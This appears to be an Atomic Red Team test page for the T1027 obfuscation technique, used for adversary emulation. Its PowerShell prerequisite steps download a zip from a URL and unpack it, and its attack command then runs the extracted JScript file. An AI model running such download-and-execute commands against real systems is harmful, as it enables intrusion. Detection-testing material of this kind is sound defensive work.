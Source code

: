 


#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url_path | url to download JScript file | url | https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1027/bin/t1027js.zip|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"PathToAtomicsFolder\..\ExternalPayloads\temp_T1027js.zip\T1027js.js"
```

#### Cleanup Commands:
```cmd
taskkill /f /im calculator.exe >nul 2>nul
```



#### Dependencies:  Run with `powershell`!
##### Description: T1027.js must exist on disk at PathToAtomicsFolder\..\ExternalPayloads\temp_T1027js.zip\T1027js.js
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\temp_T1027js.zip\T1027js.js") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "#{url_path}" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\T1027js.zip"
Expand-Archive -path "PathToAtomicsFolder\..\ExternalPayloads\T1027js.zip" -DestinationPath "PathToAtomicsFolder\..\ExternalPayloads\temp_T1027js.zip\" -Force
```




<br/>

